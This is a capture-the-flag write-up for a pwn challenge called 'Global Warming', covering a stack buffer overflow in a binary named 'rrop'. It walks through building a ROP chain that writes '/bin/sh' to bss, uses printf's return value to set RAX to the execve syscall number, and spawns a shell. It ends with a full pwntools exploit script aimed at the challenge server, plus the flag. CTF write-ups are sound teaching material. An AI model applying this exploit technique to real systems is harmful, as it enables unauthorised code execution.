 # Writeup for Global Warming (Pwn) Challenge

### Info
```
Description : You came this far using Solar Designer technique and advance technique, now you are into the gr4n173 world where you can't win just with fake rope/structure but here you should fake the signal which is turing complete.

File : rrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9031d67e25112061a3f59a630a4da011a25bd4df, not stripped

Checksec :
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
### Analysis

This is the decompilation code of the binary. <br>
The main takes 0x1388 bytes from stdin into a 0xD0 buffer. Classic Buffer Overflow Vulnerability and it prints the start address of our buffer.<br>
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-D0h]

  nvm_init(*(_QWORD *)&argc, argv, envp);
  nvm_timeout();
  printf(
    "Hello pwners, it's gr4n173 wired machine.\n"
    "Can you change the behaviour of a process, if so then take my Buffer  @%p, from some part of my process.\n",
    &buf);
  read(0, &buf, 0x1388);
  return 0;
}
```
There is a function named UsefulFunction which provides us with a <b> syscall ; ret </b> gadget. So lets try to create a execve rop chain. 
```asm
push    rbp
mov     rbp, rsp
syscall                 ; LINUX -
retn
```

### Exploit

```
Name            : execve
rax             : 0x3b
rdi             : const char *name -> pointer to /bin/sh
rsi             : const char *const *argv -> "-c"
rdx             : const char *const *envp -> NuLL
```
We need to accomplish this by creating a ROP chain. Looking at gadgets i did not find any gadget which can control rax. So i used some fancy ROP trick.
First let us write the string "/bin/sh" to bss address. We can do that by calling read on bss address.

```python
padding = 'a' * 216

write_bin_sh = flat([

  padding,
  ret,
  pop_rdi,
  0x0,
  pop_rsi_r15,
  bss_addr,
  0xdeadbeef,
  exe.sym['read'],
  exe.sym['main']

])

exploit = padding + ret + write_bin_sh
io.sendline('/bin/sh\x00')
```
This rop chain will write "/bin/sh" to bss_addr and return to main once again nothing special here, Just some basic ROP technique :)

### Controlling RAX Register

So lets debug the binary with gdb. I have setup a breakpoint in the print statement [0x40081A].

![imgbb](https://i.ibb.co/HYB6pVs/before-printf.jpg)

Step one instruction.

![imgbb](https://i.ibb.co/x8M5yYT/after-printf.jpghttps://i.ibb.co/x8M5yYT/after-printf.jpg)

So why is RAX -> 0x9f ? This is what the binary printed.  
```
>>> hex(len("Hello pwners, it's gr4n173 wired machine.\nCan you change the behaviour of a process, if so then take my Buffer  @0x7ffe3a4f6130, from some part of my process.\n"))
==> '0x9f'
```
RAX stores the return value and the return value here is 0x9f the strlen of the contents printed to stdout. So we can call printf to print 0x3b characters to set RAX to our desired value. Basically this is what we will be doing `printf("%59c")` this will print 59 bytes of white spaces thereby setting the RAX to 0x3b.
So lets also write "%000059c" at the bss and call printf with RDI -> pointer to our string and RSI -> NuLL.

```python
write_bin_sh = flat([

  padding,
  ret,
  pop_rdi,
  0x0,
  pop_rsi_r15,
  bss_addr,
  0xdeadbeef,
  exe.sym['read'],
  exe.sym['main']

])

io.recvline()
io.recvline()

io.sendline(write_bin_sh)
io.sendline("%000059c\x00\x00\x00\x00\x00\x00\x00\x00/bin/sh\x00") # write %000059c some null characters and /bin/sh at the end

io.recvline()
io.recvline()

printf_fmt = bss_addr       # %000059c
null_char = bss_addr + 8    # Null chars
bin_sh = bss_addr + 16      # /bin/sh

set_rax = flat([

  padding,
  pop_rdi,
  printf_fmt,
  pop_rsi_r15,
  null_char,
  0xdeadbeef,
  exe.sym['printf'],
  0xdeadbeef                # return to 0xdeadbeef... basically seg faulting after our rop chain.

])


io.send(set_rax)
io.recv()

```
![imgbb](https://i.ibb.co/3pchbtk/control-rax.jpg)

### Summing up all together and executing shell

Now that we have set RAX to 0x3b, We can do a pop rdi and place the bin_sh string to it and pop rsi and set it to NuLL.

```python
setup_execve = flat([

  pop_rdi,
  bin_sh,
  pop_rsi_r15,
  0x0,
  0x0,
  syscall_ret

])
```

The complete exploit script.
```python
#!/usr/bin/python
io = remote('rrop.darkarmy.xyz', '7001')

pop_rdi = 0x00000000004008b3
ret = 0x00000000004005b6
bss_addr = 0x6011a0
syscall_ret = 0x00000000004007d2
pop_rsi_r15 = 0x00000000004008b1
padding = 'a' * 216

write_bin_sh = flat([

  padding,
  ret,
  pop_rdi,
  0x0,
  pop_rsi_r15,
  bss_addr,
  0xdeadbeef,
  exe.sym['read'],
  exe.sym['main']

])

io.recvline()
io.recvline()

io.sendline(write_bin_sh)
io.sendline("%000059c\x00\x00\x00\x00\x00\x00\x00\x00/bin/sh\x00")

io.recvline()
io.recvline()

printf_fmt = bss_addr
null_char = bss_addr + 8
bin_sh = bss_addr + 16

set_rax = flat([

  padding,
  pop_rdi,
  printf_fmt,
  pop_rsi_r15,
  null_char,
  0xdeadbeef,
  exe.sym['printf'],
  ret

])

setup_execve = flat([

  pop_rdi,
  bin_sh,
  pop_rsi_r15,
  0x0,
  0x0,
  syscall_ret

])

exploit = set_rax + setup_execve

io.send(exploit)
io.recv()
io.interactive()
```
![imgbb](https://i.ibb.co/LnyD0n8/shell.png)<br>
`Flag : darkCTF{f1n4lly_y0u_f4k3_s1gn4l_fr4m3_4nd_w0n_gr4n173_w1r3d_m4ch1n3}`<br>
![imgbb](https://i.ibb.co/Wkdgytk/jIk1rJT.jpg)